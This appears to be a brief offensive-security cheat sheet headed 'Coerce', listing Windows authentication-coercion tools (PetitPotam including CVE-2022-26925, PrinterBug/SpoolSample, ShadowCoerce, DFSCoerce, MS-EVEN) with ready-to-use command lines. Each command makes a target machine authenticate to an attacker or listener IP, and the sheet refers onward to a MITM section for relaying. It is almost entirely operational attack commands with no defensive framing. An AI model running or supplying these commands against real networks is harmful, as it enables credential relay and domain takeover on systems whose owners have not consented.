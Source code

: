 # Coerce

## Tools: PetitPotam , Unathenticated PetitPotam (CVE-2022-26925)

## Commands:

 - PetitPotam.py -d DOMAIN LISTENER_IP TARGET_IP

### Go to MITM section for further usage

##### PetitPotam

    ./PetitPotam.exe attacker_IP target_IP

##### PrinterBug

    ./SpoolSample.exe target_IP attacker_IP

##### ShadowCoerce

    python3.exe shadowcoerce.py -d domain.local -u user1 -p password attacker_IP target_IP

##### DFSCoerce

    python3.exe dfscoerce.py -u user1 -d domain.local <listener_IP> <target_IP>

##### CheeseOunce via MS-EVEN

    ./MS-EVEN.exe <listener_IP> <target_IP>
